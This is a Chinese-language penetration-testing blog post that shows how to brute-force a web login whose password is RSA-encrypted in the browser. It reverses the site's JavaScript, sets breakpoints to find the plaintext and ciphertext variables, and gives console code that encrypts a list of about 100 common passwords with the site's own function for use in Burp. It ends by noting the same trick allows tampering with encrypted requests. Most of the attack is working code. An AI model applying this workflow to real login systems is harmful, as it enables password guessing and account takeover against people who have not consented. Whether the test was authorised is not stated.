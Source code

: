 ```yaml
---
layout: post
title:  "平台登陆密码请求加密爆破"
date:   2020-05-27 17：49
categories: [pentest]
tags: web渗透
---
```


<!-- more -->

## 发现加密请求js脚本

对浏览器前端进行审计，发现了加密的js

```javascript
e.encryptedString = function (t, n) {
var i = [
],
a = n.length,
r = 0;
while (r < a) i[r] = n.charCodeAt(r),
r++;
while (i.length % t.chunkSize != 0) i[r++] = 0;
var c,
o,
s,
u = i.length,
l = '';
for (r = 0; r < u; r += t.chunkSize) {
for (s = new h, c = 0, o = r; o < r + t.chunkSize; ++c) s.digits[c] = i[o++],
s.digits[c] += i[o++] << 8;
var d = t.barrett.powMod(s, t.e),
f = 16 == t.radix ? e.biToHex(d)  : e.biToString(d, t.radix);
l += f + ' '
}
return l.substring(0, l.length - 1)
}
```

打下断点查看变量，发现了明文和密文变量名

![1571819723306](https://raw.githubusercontent.com/L3B1anc/L3B1anc.github.io/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819723306.png)

找到js内发送请求处

```javascript
c['a'].get(''.concat(u, '/keyPair'));
case 2:
return r = n.sent,
o = r.exponent,
s = r.modulus,
d = l.getKeyPair(o, '', s),
h = l.encryptedString(d, e),
n.prev = 7,
n.next = 10,
c['a'].post(''.concat(u, '/login'), {
account: t,
password: h
});
```

打下断点查看变量

![1571819882865](https://raw.githubusercontent.com/L3B1anc/L3B1anc.github.io/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819882865.png)

![1571819920248](https://raw.githubusercontent.com/L3B1anc/L3B1anc.github.io/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819920248.png)

发现在js里面就是在这里生成密文并发送到服务器端

![1571820028796](https://raw.githubusercontent.com/L3B1anc/L3B1anc.github.io/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571820028796.png)

## 调用js生成加密密码字典

在控制台内申明一个明文字典数组

```javascript
var  A = ['123456','password','123456789','12345678','12345','111111','1234567','sunshine','qwerty','iloveyou','princess','admin','welcome','666666','abc123','football','123123','monkey','654321','!@#$%^&*','charlie','aa123456','donald','password1','qwerty123','zxcvbnm','121212','bailey','freedom','shadow','passw0rd','baseball','buster','daniel','hannah','thomas','summer','george','harley','222222','jessica','ginger','letmein','abcdef','solo','jordan','55555','tigger','joshua','pepper','sophie','1234','robert','matthew','12341234','andrew','lakers','andrea','1qaz2wsx','starwars','ferrari','cheese','computer','corvette','mercedes','blahblah','maverick','hello','nicole','hunter','1989','amanda','1990','jennifer','banana','chelsea','ranger','1991','trustno1','merlin','cookie','ashley','bandit','killer','aaaaaa','1q2w3e','zaq1zaq1','test','hockey','dallas','whatever','admin123','pussy','liverpool','querty','william','soccer','london','1992','biteme']
```

声明一个空数组作为密文字典

```javascript
var dist = new Array()
```

调用加密方法将明文字典加密为密文字典

```js
for(i=0,len=A.length;i<len;i++){
  dist[i]=l.encryptedString(d, A[i])
}console.log(dist)
```

然后在控制台内就获得了加密后的字典文件

![1571820473809](https://raw.githubusercontent.com/L3B1anc/L3B1anc.github.io/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571820473809.png)

直接使用加密后的字典文件放入burp里面进行爆破就可以了

---

这套操作也适用于请求加密的情况，可以直接替换掉加密请求达到请求篡改的目的



